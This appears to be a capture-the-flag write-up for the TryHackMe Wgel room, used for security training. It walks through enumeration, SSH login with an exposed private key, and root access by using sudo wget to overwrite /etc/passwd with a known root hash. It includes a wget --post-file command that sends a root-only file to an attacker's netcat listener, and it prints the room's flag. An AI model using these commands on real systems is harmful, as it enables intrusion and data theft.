<div align="center">



</div>

## 📌 Overview

Wgel CTF is a beginner-friendly TryHackMe room that teaches a complete attack chain — from web enumeration through SSH access and finally privilege escalation using wget. What makes this machine interesting is how each step feeds directly into the next. A careless HTML comment on the Apache default page reveals a username. Directory brute forcing uncovers a hidden SSH directory. The exposed private key gets you a shell. And a single sudo misconfiguration on wget hands you root.

---

## 🛠 Tools Used

```
nmap            → port scanning and service enumeration
gobuster        → directory brute forcing
wget            → file download and privilege escalation
ssh             → remote shell access
openssl         → password hash generation
python3         → HTTP server for file serving
netcat (nc)     → listener for data exfiltration
GTFOBins        → sudo privilege escalation reference
```

---

## 🎯 Target Information

| Field    | Value                    |
| -------- | ------------------------ |
| Platform | TryHackMe                |
| Room     | Wgel CTF                 |
| IP       | 10.113.147.159           |
| OS       | Ubuntu 16.04.6 LTS       |
| Points   | 60                       |
| Tasks    | 1 / 1                    |
| Goal     | user.txt and root.txt    |

---

## 🧭 Walkthrough

### Step 1 — Nmap Reconnaissance

Every engagement starts with a port scan. Start with a fast full-port scan to find everything listening:

```bash
nmap -p- --min-rate 5000 -Pn 10.113.147.159
```



Two ports open — SSH on 22 and HTTP on 80. Simple target. Now run a detailed version scan on those two ports:

```bash
nmap -T4 -sV -A -Pn 10.113.147.159
```



The version scan tells us everything we need about the services:

```
22/tcp  — OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
80/tcp  — Apache httpd 2.4.18 (Ubuntu)
```

Apache 2.4.18 on Ubuntu. The HTTP title says "Apache2 Ubuntu Default Page: It works" — the server is running but no custom site has been deployed to the root. Default pages are never just default pages.

---

### Step 2 — Web Enumeration

Navigate to the web server on port 80:

```
http://10.113.147.159
```



It is the standard Apache2 Ubuntu default page. Most people close this and move on. That is a mistake — always view the page source. Right-click and view source, scroll to the bottom:

Line 278 contains an HTML comment: `<!-- Jessie don't forget to update the website -->`. The developer left a reminder to themselves inside the source code. That name — **Jessie** — is a username. We now have a potential SSH username without running any brute force or exploitation.



This is one of the most common real-world findings. Developers leave comments in source code constantly — names, internal hostnames, credential hints, notes about vulnerabilities. Always read the source of every page you find.

---

### Step 3 — Directory Brute Forcing

The root of the web server shows the default page. There might be other directories with actual content. Run gobuster to enumerate them:

```bash
gobuster dir -u http://10.113.147.159/ -w /usr/share/wordlists/dirb/common.txt html --exclude-length 162 -t 25 --timeout 100s -k
```



Gobuster finds a `/sitemap/` directory returning a 301 redirect. Navigate to it in the browser and it shows a proper website — an Unapp template. More importantly, we need to enumerate inside `/sitemap/` itself.

Run gobuster again targeting the sitemap directory:

```bash
gobuster dir -u http://10.113.147.159/sitemap -w /usr/share/wordlists/dirb/common.txt html --exclude-length 162 -t 25 --timeout 100s -k
```



The sitemap directory contains a hidden `.ssh` folder — returning a 301 redirect to `http://10.113.147.159/sitemap/.ssh/`. A `.ssh` directory exposed on a web server means SSH keys. Navigate to it:



Directory listing is enabled and shows one file: `id_rsa` — a private SSH key, dated 2019-10-26. The web server is serving jessie's SSH private key to anyone who browses to it. This is a critical misconfiguration. Download the key immediately.



---

### Step 4 — SSH Access as Jessie

Save the key contents into a local file, then set the correct permissions. SSH refuses to use private keys that are too open — they must be readable only by the owner:

```bash
mousepad id_rsa
chmod 600 id_rsa
```

Connect using the key and the username we found in the HTML comment:

```bash
ssh -i id_rsa jessie@10.113.147.159
```



The key authenticates successfully. We are in as jessie on CorpOne running Ubuntu 16.04.6 LTS. The `whoami` confirms jessie and `id` shows group memberships including sudo — jessie is in the sudo group, which means privilege escalation through sudo misconfiguration is the likely path forward.

The user flag is in jessie's home directory:

```bash
cat /home/jessie/Documents/user_flag.txt
```

---

### Step 5 — Privilege Escalation via wget (File Write)

#### Detection

The first thing to check after landing a shell is always `sudo -l`:

```bash
sudo -l
```



The output shows two critical entries:

```
(ALL : ALL) ALL
(root) NOPASSWD: /usr/bin/wget
```

The first line `(ALL : ALL) ALL` means jessie can run any command as any user — but it requires a password. The second line is the one that matters: jessie can run `/usr/bin/wget` as root with **no password required**.

Go to GTFOBins and search for wget, then click the **Sudo** tab:



GTFOBins shows multiple techniques for wget under Sudo: Shell, File write, File read, and Upload. The Shell technique uses `--use-askpass` which this old version of wget does not support. The most reliable technique here is **File write** — wget running as root can download and overwrite any file on the system, including `/etc/passwd`.

#### Why /etc/passwd?

`/etc/passwd` controls every user account on the system. Each line defines a user in the format:

```
username:password:UID:GID:comment:home:shell
```

Modern systems still check this field — if it contains a valid hash instead of `x`, the system uses that hash for authentication instead of looking at `/etc/shadow`. If we add a line with UID 0 (root) and a hash we know the password for, we can `su` to that user and get a root shell.

#### Step 1 — First Attempt: bcrypt (Failed)

The first attempt was generating a bcrypt hash using Python:

```bash
python3 python.py
```



The script generated a `$2b$` bcrypt hash. This was inserted into the passwd file:



After overwriting `/etc/passwd` and running `su`, authentication failed. The reason: Linux `/etc/passwd` supports MD5-crypt (`$1$`), SHA-256 (`$5$`), and SHA-512 (`$6$`) — it does **not** support bcrypt (`$2b$`). Using bcrypt causes authentication failure even with the correct password. This is the mistake that trips up almost everyone attempting the passwd overwrite technique the first time.

#### Step 2 — Correct Hash: openssl passwd -1

Use openssl to generate a compatible MD5-crypt hash:

```bash
openssl passwd -1 password
```

This generates a `$1$` format hash. Get a copy of `/etc/passwd` from the target, open it, and replace the root line:

```
root:x:0:0:root:/root:/bin/bash
```

Change it to:

```
root:$1$OeUw7zc0$MvxfAvuIjFs7rDYwBCAhs/:0:0:root:/root:/bin/bash
```

#### Step 3 — Serve and Overwrite

Start a Python HTTP server on the attack machine to serve the modified passwd file:

```bash
python3 -m http.server 80
```

On the target, use sudo wget to download the modified file and overwrite `/etc/passwd`:

```bash
sudo wget http://192.168.205.100/passwd -O /etc/passwd
```



wget downloads the file as root and writes it directly to `/etc/passwd`. Since wget runs as root, it has full permission to overwrite this protected system file.

#### Step 4 — Switch to Root

```bash
su
```

Enter `password` when prompted:



Authentication succeeds. `whoami` confirms root. We are now root on CorpOne.

---

### Step 6 — Flags

#### Root Flag

Navigate to the root home directory and read the flag:

```bash
cd /root
ls
cat root_flag.txt
```



```
b1b968b37519ad1daa6408188649263d
```

#### Bonus — Getting the Root Flag Without a Full Root Shell

GTFOBins also documents an Upload technique for wget — you can POST any file directly to a netcat listener on the attack machine without ever needing a full root shell. This works because wget can read any file as root and send it over HTTP.

Set up a listener on the attack machine:

```bash
nc -lvnp 4443
```

On the target, use sudo wget to POST the root flag directly to the listener:

```bash
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://192.168.205.100:4443
```



The flag content arrives at the netcat listener: `b1b968b37519ad1daa6408188649263d`. This technique is useful when you need to read a protected file but do not need a full shell — one command, no escalation required.

---

## 📌 Conclusion

**Always read the HTML source of every page including default pages.** The Apache default page looks identical on every Ubuntu server — most people close it immediately. This one had a username hidden in an HTML comment at line 278. One minute of reading source code saved hours of brute forcing.

**Directory brute forcing needs to go multiple levels deep.** The first gobuster run found `/sitemap/`. If you stop there you miss everything. Running gobuster again inside `/sitemap/` found `/.ssh/` — the actual finding that broke the box open. Always enumerate subdirectories of interesting findings.

**Directory listing enabled on a web server is catastrophic.** The `.ssh` folder had Apache directory listing turned on, meaning anyone who browsed to it could see and download every file inside. The private key that should never leave the server was served to the entire internet.

**bcrypt ($2b$) is not supported in /etc/passwd — use openssl passwd -1 for MD5-crypt ($1$).** This is the mistake that trips up almost everyone attempting the passwd overwrite technique. bcrypt hashes authenticate fine in `/etc/shadow` but Linux cannot verify them in `/etc/passwd`. The `openssl passwd -1` command generates the correct format. SHA-512 with `openssl passwd -6` also works.

---

This work is part of **FuzzRaiders**' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀


